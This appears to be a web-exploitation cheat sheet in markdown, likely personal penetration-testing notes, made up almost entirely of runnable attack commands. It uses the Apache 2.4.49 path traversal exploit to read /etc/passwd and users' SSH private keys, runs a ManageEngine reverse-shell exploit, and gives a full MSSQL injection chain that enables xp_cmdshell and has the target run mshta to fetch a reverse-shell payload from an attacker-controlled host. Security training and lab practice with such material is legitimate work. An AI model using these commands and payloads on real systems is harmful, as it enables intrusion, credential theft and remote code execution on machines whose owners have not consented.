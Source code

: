 # 01 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: direct access](#Example-direct-accesse)
- [Example: reverse shell](#Example-reverse-shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)

## Exploit DB

Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: direct access

ID 50383: Apache path traversal
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

## Example: reverse shell

ID 48793: ManageEngine reverse shell (auth)
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## richiede nc listener: nc -nvlp 443
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell

Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```
